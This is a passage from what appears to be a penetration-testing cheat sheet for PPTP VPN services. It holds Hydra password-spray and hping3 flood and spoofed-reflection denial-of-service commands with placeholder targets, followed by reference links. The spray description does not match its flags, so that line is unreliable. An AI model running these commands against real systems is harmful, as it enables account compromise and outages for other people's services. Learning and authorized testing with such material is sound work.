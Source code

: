 #### Password Spray

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra <protocol>://<target_ip> -s <target_port> -l <username_list> -P <password>
    ```
* **Description:** Test a multiple usernames against a single password.

### Denial of Service

#### TCP/UPD Flood Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip> -p 1723 --flood --rand-source -c 1000
    ```
* **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

#### TCP/UDP Reflection Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip_1> -p 1723 --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
* **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

## Resources

| **Website**              | **URL**                                             |
| ------------------------ | --------------------------------------------------- |
| RFC 2637                 | https://tools.ietf.org/html/rfc2637                 |
| Nmap PPTP Script         | https://nmap.org/nsedoc/scripts/pptp-version.html   |
| Chapcrack Documentation  | https://github.com/moxie0/chapcrack                 |
| Asleap Manual            | https://www.willhackforsushi.com/?page\_id=41       |
| Metasploit Framework     | https://www.metasploit.com                          |
| Wireshark User Guide     | https://www.wireshark.org/docs/wsug\_html\_chunked/ |
| pptpd Project            | https://poptop.sourceforge.net                      |
| Linux pppd Documentation | https://ppp.samba.org/                              |
| OpenVPN Alternatives     | https://openvpn.net/                                |
| IKEv2/IPsec Overview     | https://tools.ietf.org/html/rfc7296                 |
